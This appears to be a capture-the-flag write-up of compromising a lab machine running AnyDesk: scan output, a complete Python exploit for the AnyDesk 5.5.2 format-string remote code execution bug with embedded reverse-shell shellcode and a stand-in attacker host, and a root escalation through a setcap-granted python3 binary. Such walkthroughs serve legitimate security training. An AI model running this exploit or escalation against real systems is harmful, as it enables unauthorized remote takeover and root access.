




# Port Scanning
```bash
❯ rustscan -a 10.49.171.49 -- -A

Open 10.49.171.49:22
Open 10.49.171.49:7070
Open 10.49.171.49:38585

PORT      STATE SERVICE         REASON         VERSION
22/tcp    open  ssh             syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDA0R7eKVAIQzgsQ1QLoI7zzRYcaNBJ0wZtCbG1n5lR51Jfr2CC6+IVVxzleo0wCtfV9tcgtRXVdrju+29xaBR/Hin16MAf7QM4cY5dt46pgADnbwSXAy8GpnuCT10tTrL27gpKM2ayqmlpnKSxL2daP5uhkuoZCI3EYOvbaoPn4/u4vKeH64bk/s5zTE2JeIV/CwQnheYc1ZhwiJQD5k11735k+NfhD7pmhNY+QpG6qZNyFZ4APqdktrnDFetksOkC2NF4D8/OOjDsYkmofeIe+2fe01BHO4KFnRrKI3aSNDQdeNIQIL7LgKufgQ+yP0WmRLOThsiwu22jUG/8Ot1f
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH+EwC6q+M+qEr2TTccTtvcNF7dfougjgrZzZG4ShpTnNo1KXJy6iTnW/al9mxm/ecZVSF45w3Z3IYwAi9nfrdU=
|   256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBgcqbntpdHoH14/wXi5gysaIvv0hOk+VvCUNmVjhkMQ
7070/tcp  open  ssl/realserver? syn-ack ttl 62
| ssl-cert: Subject: commonName=AnyDesk Client
| Issuer: commonName=AnyDesk Client
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-03-23T20:04:30
| Not valid after:  2072-03-10T20:04:30
| MD5:     3e57 6c44 bf60 ef79 7999 8998 7c8d bdf0
| SHA-1:   ce6c 79fb 669d 9b19 5382 8cec c8d5 50b6 2e36 475b
| SHA-256: fafd d385 c835 552b fefe d7c7 3f37 ec9c 2a54 fdc8 2798 4a2c 5fdd 85db d1cd 7c74
| -----BEGIN CERTIFICATE-----
| MIICqDCCAZACAQEwDQYJKoZIhvcNAQELBQAwGTEXMBUGA1UEAwwOQW55RGVzayBD
| bGllbnQwIBcNMjIwMzIzMjAwNDMwWhgPMjA3MjAzMTAyMDA0MzBaMBkxFzAVBgNV
| BAMMDkFueURlc2sgQ2xpZW50MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKC
| AQEAvFEAPxFPrh1v6FuKL9k1AiX5ml+soPQ3sfYSr+5y7uJlqwy2C6HZ2Kf83gc0
| MN/+GP4mWpB1LskMHDWf2173Sy8A+EBekxRn05tCs1gyxD19vHvqcorZD9JbN/Mz
| Pq6kEvloUrHNKgkYyYPq3neAZ4RxQSTjAOydR+0aGWiDV4QNdzmKvwaunlvz8zoZ
| Nr+tcI0UnP4jeAC3fSX7XfijPE7ANWaiwm4oVWOgiMXcTDGuJ78WptNJ7/XI+RFT
| lkN8T69uHWLRUyN2YHG7OSK28UExyDShM08t3MyztWQmCtHqQd4hExdZoIkIW9bP
| Qf4QS+mlal0rBYqNkZNXUNeX7QIDAQABMA0GCSqGSIb3DQEBCwUAA4IBAQBe68Tz
| 6xMMwAxJb0xWz7DIK9ffSVEnnBe3Epdi0a76B2I1eu59+DzZu1euw8UAak7i1lL/
| +Yu/i6LfLHzjQuD7MMQUmGRlcsxMTOfYXiSbKAgAd8vt+a24Q8LKDASu8lmLNtj/
| /GglirQnYStt6zb9f4Ud3YpPGDcqfS636YlnFDttmLMapI9GJZs+GTp+ukbxCH9j
| hrhMjE+4d1Le5dFk0K2P2v/m8IMqc52Mkef7XR4CFMC+DOIRp8U3PN1i9rFOLFaE
| FuZmniIJ30KAE+BCCPD+Ozx5cCcA8OYcT/Wyua5pPepP7ryR5lVbZmcAR9ELgzvm
| mSn9KWFRlhAMUQ4V
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
38585/tcp open  unknown         syn-ack ttl 62
| fingerprint-strings: 
|   NULL: 
|     |5et
|     ?z(0VK
|     GCuO
|     :wLW
|     l\xe5+
|     W+z:
|     \xd7w
|     +5RE1Ue
|     FyZ:
|     ;=:)
|_    \x8e
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.19 (96%), Linux 5.4 - 5.15 (96%), Linux 4.15 (95%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Linux 5.14 - 6.8 (93%), Adtran 424RG FTTH gateway (92%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%)
No exact OS matches for host (test conditions non-ideal).
```
Running anydesk on port 7070. Googling about the vulnerability, I found the following. <br/>
 <br/>
I downloaded the script and rewrite it with the help of AI. 
```python3
#!/usr/bin/env python3
# Exploit Title: AnyDesk 5.5.2 - Remote Code Execution
# Date: 09/06/20
# Exploit Author: scryh
# Fixed for Python3 by: AI Assistant
# Vendor Homepage: https://anydesk.com/en
# Version: 5.5.2
# Tested on: Linux
# Walkthrough: https://devel0pment.de/?p=1881

import struct
import socket
import sys

# CONFIGURATION - CHANGE THESE!
ip = '10.49.171.49'  # Target IP
port = 50001          # Target port
LHOST = 'attacker_ip'     # Your IP for reverse shell
LPORT = 4444          # Your port for reverse shell

def gen_discover_packet(ad_id, os, hn, user, inf, func):
    d = b'\x3e\xd1\x01'  # Fixed: bytes instead of chr()
    d += struct.pack('>I', ad_id)
    d += struct.pack('>I', 0)
    d += bytes([0x02, os])  # Fixed: bytes() instead of chr()
    d += struct.pack('>I', len(hn)) + hn.encode() if isinstance(hn, str) else struct.pack('>I', len(hn)) + hn
    d += struct.pack('>I', len(user)) + user.encode() if isinstance(user, str) else struct.pack('>I', len(user)) + user
    d += struct.pack('>I', 0)
    d += struct.pack('>I', len(inf)) + inf.encode() if isinstance(inf, str) else struct.pack('>I', len(inf)) + inf
    d += b'\x00'
    d += struct.pack('>I', len(func)) + func.encode() if isinstance(func, str) else struct.pack('>I', len(func)) + func
    d += b'\x02\xc3\x51'  # Fixed: bytes instead of chr()
    return d

def generate_shellcode(lhost, lport):
    # msfvenom -p linux/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -b "\x00\x25\x26" -f python -v shellcode
    # Replace this with your own generated shellcode
    shellcode = b""
    shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
    shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x70\x73\x54"
    shellcode += b"\xdb\xf2\xff\xf5\xb2\x48\x31\x58\x27\x48\x2d"
    shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x1a\x5a\x0c\x42\x98"
    shellcode += b"\xfd\xaa\xd8\x71\x2d\x5b\xde\xba\x68\xbd\x0b"
    shellcode += b"\x72\x73\x45\x87\x32\x57\x79\xb1\x21\x3b\xdd"
    shellcode += b"\x3d\x98\xef\xaf\xd8\x5a\x2b\x5b\xde\x98\xfc"
    shellcode += b"\xab\xfa\x8f\xbd\x3e\xfa\xaa\xf0\xf0\xc7\x86"
    shellcode += b"\x19\x6f\x83\x6b\xb7\x4e\x9d\x12\x1a\x3a\xf4"
    shellcode += b"\x81\x97\xf5\xe1\x38\xfa\xb3\x89\xa5\xb7\x7c"
    shellcode += b"\x54\x7f\x76\x54\xdb\xf2\xff\xf5\xb2"
    return shellcode

def main():
    print('[+] Generating shellcode...')
    shellcode = generate_shellcode(LHOST, LPORT)
    
    # Format string payload components
    hn = b'\x85\xfe%1$*1$x%18x%165$ln' + shellcode
    user = b'\x85\xfe%18472249x%93$ln'
    inf = 'ad'
    func = 'main'
    
    print('[+] Building packet...')
    p = gen_discover_packet(4919, 1, hn, user, inf, func)
    
    print(f'[+] Sending payload to {ip}:{port}...')
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    try:
        s.sendto(p, (ip, port))
        print('[+] Payload sent successfully!')
        print('[+] Reverse shell should connect within 5 seconds...')
        print(f'[+] Make sure you have a listener running: nc -lvnp {LPORT}')
    except Exception as e:
        print(f'[-] Error sending payload: {e}')
        sys.exit(1)
    finally:
        s.close()

if __name__ == '__main__':
    main()
```
Using this I got the reverse shell. <br/>
 <br/>
# Privilege Escalation
Looking for SUID bit I got the `/sbin/setcap` <br/>
 <br/>
So it allowed me to set vulnerable capabilities for a binary and exploit it to be root. <br/>
Using the following method I exploit it as root. <br/>
1. Copy the python3 binary to a writable directory `cp /usr/bin/python3 /home/annie`
2. Set capabilities to that binary. `/sbin/setcap cap_setuid+ep /home/annie/python3`
3. Run `./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`
 <br/>